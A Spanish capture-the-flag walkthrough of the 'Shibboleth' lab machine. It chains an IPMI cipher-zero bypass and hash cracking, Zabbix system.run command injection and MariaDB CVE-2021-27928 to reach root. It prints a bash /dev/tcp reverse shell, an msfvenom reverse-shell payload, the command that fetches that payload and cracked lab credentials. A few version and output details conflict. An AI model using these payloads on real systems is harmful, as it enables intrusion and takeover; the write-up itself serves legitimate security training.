

Resumen de Explotación
La máquina expone un sitio web que menciona en su footer el uso de Zabbix y Bare Metal BMC automation. Enumerando virtual hosts se descubren tres subdominios que apuntan al panel de login de Zabbix, pero no hay credenciales válidas por defecto.
La pista del BMC lleva directamente al puerto UDP 623 (IPMI/RMCP+). Aprovechando el cifrado nulo (cipher suite 0), se puede autenticar con el usuario Administrator sin contraseña, y desde ahí dumpear el hash IPMI del usuario usando el módulo de Metasploit ipmi_dumphashes. El hash se crackea en segundos con hashcat y las credenciales resultantes dan acceso al panel de Zabbix.
Una vez dentro de Zabbix (versión 5.0.17), se abusa de la funcionalidad de items para inyectar un comando a través del parámetro key usando system.run[...], obteniendo una reverse shell como el usuario zabbix. Probando reutilización de credenciales, el usuario ipmi-svc comparte las mismas credenciales que el panel de Zabbix, lo que permite obtener la flag de usuario.
Para la escalada de privilegios, desde la sesión de ipmi-svc se leen las credenciales de la base de datos en /etc/zabbix/zabbix_server.conf. El servidor MariaDB 10.3.25 se ejecuta como root y es vulnerable a CVE-2021-27928. Generando un objeto compartido malicioso con msfvenom y cargándolo mediante SET GLOBAL wsrep_provider desde dentro de la sesión SQL, se consigue una reverse shell directamente como root.
Tecnologías/Exploits: IPMI cipher suite 0 authentication bypass, IPMI hash dumping y cracking (hashcat modo 7300), Zabbix command injection RCE, MariaDB 10.3.25 RCE (CVE-2021-27928).
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar los servicios expuestos en la máquina objetivo:
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htbSolo se expone el puerto 80/tcp. Añado shibboleth.htb al /etc/hosts y procedo a enumerar la web.
Enumeración Web
Con whatweb obtengo un perfil rápido del servidor:
http://shibboleth.htb/ [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ],
Email[contact@example.com,info@example.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)],
IP[10.129.4.44], Lightbox, PoweredBy[enterprise], Script, Title[FlexStart Bootstrap Template - Index]La web tiene un formulario de contacto que hace POST a /forms/contact.php. Al intentar enviarlo, devuelve el siguiente error (con código 200):
Unable to load the "PHP Email Form" Library!Esto confirma que el backend usa PHP. El error probablemente se debe a que la librería de formularios de Bootstrap no está configurada correctamente, no es un vector de ataque directo.
Lo que sí llama la atención es el footer de la página:
Powered by enterprise monitoring solutions based on Zabbix & Bare Metal BMC automation
Dos pistas muy concretas: Zabbix como plataforma de monitorización y BMC (Baseboard Management Controller) como capa de gestión de hardware. Tomo nota de ambas y continúo.
Descubrimiento de Virtual Hosts
Fuzzeando virtual hosts con wfuzz encuentro tres subdominios activos:
wfuzz -u http://shibboleth.htb \
-H "Host: FUZZ.shibboleth.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
--hw 26000000099: 200 29 L 219 W 3684 Ch "monitor"
000000346: 200 29 L 219 W 3684 Ch "monitoring"
000000390: 200 29 L 219 W 3684 Ch "zabbix"Los tres subdominios (monitor, monitoring, zabbix) muestran la misma respuesta y todos apuntan al panel de login de Zabbix. Los añado al /etc/hosts. Pruebo credenciales por defecto y acceso como guest, pero sin éxito. El enlace de ayuda del login apunta a la documentación de la versión 5.0, lo que sugiere que puede ser Zabbix 5.x.
Sin credenciales válidas, de momento dejo Zabbix aparcado y me centro en la otra pista del footer: el BMC.
IPMI — Enumeración por UDP 623
BMC (Baseboard Management Controller) es una interfaz de gestión out-of-band integrada en servidores físicos (iDRAC, iLO, IPMI). Permite a los administradores gestionar el hardware de forma independiente al sistema operativo, incluso cuando este está apagado. La interfaz estándar de IPMI usa el puerto UDP 623 con el protocolo RMCP/RMCP+.
Compruebo si el puerto está abierto:
PORT STATE SERVICE VERSION
623/udp open asf-rmcpEl puerto responde. Para interactuar con IPMI uso ipmitool (instalable con apt). Un primer intento sin especificar cipher suite falla:
ipmitool -I lanplus -H shibboleth.htb -U admin -P "" user list
Unable to Get Channel Cipher Suites
Error: Unable to establish IPMI v2 / RMCP+ sessionEl cifrado no está negociando bien. La opción -C 0 fuerza el uso de la cipher suite 0 (sin cifrado ni autenticación real), que es un problema conocido de muchas implementaciones IPMI. Si está habilitada, permite autenticarse con cualquier contraseña siempre que el usuario sea válido:
ipmitool -I lanplus -H shibboleth.htb -U Administrator -P admin -C 0 user listID Name Callin Link Auth IPMI Msg Channel Priv Limit
1 true false false USER
2 Administrator true false true USERCon el usuario Administrator y cipher suite 0, el acceso funciona independientemente de la contraseña usada. Los demás IDs aparecen vacíos; no son usuarios reales.
Escalada de Privilegios IPMI (informativo)
Es posible escalar el privilegio del usuario dentro del contexto IPMI con el siguiente comando, que eleva al usuario 2 al nivel ADMINISTRATOR (nivel 4):
ipmitool -I lanplus -H shibboleth.htb -U Administrator -P admin -C 0 user priv 2 4ID Name Callin Link Auth IPMI Msg Channel Priv Limit
1 true false false USER
2 Administrator true false true ADMINISTRATORSin embargo, la funcionalidad SOL (Serial Over LAN), que permitiría acceso directo al bootloader (GRUB) o a la consola del sistema, está deshabilitada en esta máquina. El valor de esta escalada IPMI es limitado aquí, pero en un entorno real con SOL activo supondría acceso total al sistema de forma independiente al OS.
Dumping del Hash IPMI con Metasploit
Una técnica más útil es el dump de hashes IPMI. El proceso consiste en que el cliente inicia una petición de autenticación RAKP y el servidor responde con un mensaje que incluye un HMAC del hash de la contraseña. Este hash puede capturarse y crackearse offline. Metasploit automatiza todo el proceso:
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS shibboleth.htb
RHOSTS => shibboleth.htb
msf auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 10.129.4.44:623 - IPMI - Hash found: Administrator:be2acdec820c00004b82c19ab0322d3b946c6ab99a0230a672f368e4434b80d9fd9a42f79973b9c9a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:6e34d666fdb63f31aac82b2e1c0bc140b77f93ab
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completedTambién se puede obtener el hash de forma manual capturando el tráfico UDP con Wireshark durante el proceso de autenticación, pero el módulo de Metasploit es la opción más directa.
Crackeo el hash con hashcat usando el modo 7300 (IPMI2 RAKP HMAC-SHA1):
hashcat -m 7300 hashes.txt /usr/share/wordlists/rockyou.txtEl hash crackea en segundos:
...:6e34d666fdb63f31aac82b2e1c0bc140b77f93ab:ilovepumkinpie1
Administrator:ilovepumkinpie1Acceso a Zabbix — Inyección de Comandos
Las credenciales Administrator:ilovepumkinpie1 dan acceso al panel de Zabbix. Una vez dentro, el footer confirma la versión exacta: Zabbix 5.0.17.
Esta versión es vulnerable a una inyección de comandos a través del parámetro key al crear un item de monitorización. Existe una PoC pública en: https://github.com/HussienMisbah/Exploits/blob/master/Zabbix_exploit/exploit.py
Leyendo el código, la técnica es sencilla y replicable directamente desde la interfaz web. El agente Zabbix expone la función system.run[comando], que ejecuta comandos del sistema en el host monitorizado. Creo un item nuevo en el host con este payload en el campo key:
system.run[bash -c "bash -i >& /dev/tcp/10.10.14.142/443 0>&1",nowait]Guardo el item. A continuación, lo busco en el listado de items del host y accedo a sus propiedades:

Con un listener de netcat escuchando en el puerto 443, pulso Execute Now y en segundos recibo la conexión:
sudo nc -lvnp 443listening on [any] 443 ...
connect to [10.10.14.142] from (UNKNOWN) [10.129.4.44] ...
id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
zabbix@shibboleth:/$Tengo shell como el usuario zabbix.
Movimiento Lateral — Usuario ipmi-svc
Enumerando el sistema, veo que existe el usuario ipmi-svc. También hay MySQL escuchando localmente en el puerto 3306, pero las credenciales que tengo no funcionan aún para acceder a la base de datos, y el archivo de configuración de Zabbix no es legible desde este usuario.
Con pspy observo algunos procesos interesantes ejecutándose como root, relacionados con la simulación IPMI que vimos antes:
CMD: UID=0 PID=956 | /usr/bin/ipmi_sim -n -c /etc/ayelow/ipmi_lan.conf -f /etc/ayelow/sim.emu
CMD: UID=0 PID=953 | /bin/bash /usr/local/bin/ayelow.shcat /usr/local/bin/ayelow.sh#!/bin/bash
/usr/bin/ipmi_sim -n -c /etc/ayelow/ipmi_lan.conf -f /etc/ayelow/sim.emuEl puerto UDP 623 está simulado en software por ipmi_sim v1.0.13 ejecutándose como root. Esto explica el comportamiento que vimos antes.
Pruebo reutilización de credenciales con ipmi-svc: las mismas credenciales del panel de Zabbix (ilovepumkinpie1) funcionan para este usuario. Obtengo la flag de usuario al hacer su ipmi-svc o conectarme por SSH.
Escalada de Privilegios — MariaDB CVE-2021-27928
Con acceso como ipmi-svc, puedo leer el archivo de configuración de Zabbix y extraer las credenciales de la base de datos:
cat /etc/zabbix/zabbix_server.conf | grep DBDBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluhMe conecto a MySQL y exploro las tablas, pero no encuentro nada de utilidad más allá de los usuarios Admin y guest de Zabbix.
Lo realmente interesante es la versión del servidor de base de datos y con qué usuario se ejecuta:
ps -fauxww | grep sqlroot 1116 /bin/sh /usr/bin/mysqld_safe
root 1268 \_ /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql
--plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin
--user=root --skip-log-error
--pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sockServer version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04MariaDB 10.3.25 ejecutándose como root. Esta versión es vulnerable a CVE-2020-15180, aunque no hay exploits públicos funcionales para ese CVE concreto. Investigando más, encuentro que también está afectada por CVE-2021-27928, que sí tiene exploit público en Exploit-DB: https://www.exploit-db.com/exploits/49765
Este CVE afecta a versiones de MariaDB anteriores a la 10.3.3 (según la entrada) y explota el hecho de que la variable global wsrep_provider, que define la ruta a un objeto compartido (.so) del sistema de replicación Galera, puede ser modificada por un usuario con privilegios SQL. Al apuntar esta variable a un archivo .so malicioso, el servidor lo carga y ejecuta su código en el contexto del proceso de MySQL, que en este caso corre como root.
Generación del Payload
Desde mi máquina, genero un objeto compartido ELF con msfvenom que contiene una reverse shell:
msfvenom -p linux/x64/shell_reverse_tcp \
LHOST=10.10.14.142 LPORT=443 \
-f elf-so -o CVE-2021-27928.so[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: CVE-2021-27928.soTransfiero el archivo a la máquina víctima mediante un servidor HTTP simple:
# En mi máquina:
python3 -m http.server 8080
# En la víctima:
wget http://10.10.14.142:8080/CVE-2021-27928.so -O /tmp/CVE-2021-27928.soExplotación
Un primer intento usando la flag -e de mysql para ejecutar directamente el payload devuelve una reverse shell, pero como el usuario zabbix (el propietario de la conexión SQL), no como root:
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during queryLa clave está en ejecutar el comando desde dentro de una sesión SQL interactiva. El servidor MySQL procesa la carga del .so en el contexto de su propio proceso (que corre como root), no en el del cliente. Al hacerlo con -e, la sesión termina antes de que la shell pueda establecerse correctamente. Desde una sesión interactiva el comportamiento es el esperado:
mysql -u zabbix -p
# (introducir contraseña: bloooarskybluh)MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
Connection id: 15
Current database: *** NONE ***
ERROR 2013 (HY000): Lost connection to MySQL server during queryEl servidor cae al cargar el objeto compartido (es el comportamiento esperado del exploit). En paralelo, mi listener recibe la conexión:
sudo nc -lvnp 443listening on [any] 443 ...
connect to [10.10.14.142] from (UNKNOWN) [10.129.4.44] 54956
id
uid=0(root) gid=0(root) groups=0(root)Shell como root. Recupero la flag del sistema y la máquina queda comprometida en su totalidad.